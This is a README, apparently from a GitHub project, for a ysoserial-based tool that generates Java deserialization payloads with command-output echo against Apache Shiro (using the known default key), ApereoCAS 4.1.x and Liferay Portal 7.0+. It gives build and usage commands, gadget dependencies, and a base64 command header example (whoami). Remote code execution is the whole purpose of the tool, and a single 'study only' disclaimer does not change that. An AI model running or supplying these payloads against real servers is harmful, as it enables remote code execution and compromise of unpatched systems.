

# 回显某些框架和场景下的反序列化利用 

## 0x01 Introduce

1. Request/Response回显
2. 支持win和linux payload
2. base64编码

## 0x02 Support
1. ApereoCAS 4.1.X 默认密钥
2. Shiro spring 环境下回显
3. Liferay protal 7.0 以上

## 0x02 Buiding

```mvn clean package -DskipTests```

## 0x03 Usage

```
Author: JF

Usage: java -jar yso-echo-all.jar shiro linux [key default kPH+bIxk5D2deZiIxcaaaA==]
Usage: java -jar yso-echo-all.jar shiro linux 0AvVhmFLUs0KTA3Kprsdag==
Usage: java -jar yso-echo-all.jar liferay win
Usage: java -jar yso-echo-all.jar apereo linux

[Add Request header] c=d2hvYW1p (whoami)

  Available payload types:
     Payload Authors Dependencies
     ------- ------- ------------
     apereo          commons-collections4:4.0
     liferay         commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2
     shiro           commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2

```

## 0x04 Screenshot

shiro spring env


## 0x05 Reference
* https://github.com/frohoff/ysoserial
* https://www.freebuf.com/vuls/226149.html
* https://www.00theway.org/2020/01/04/apereo-cas-rce/


仅供学习研究使用，请勿用于非法用途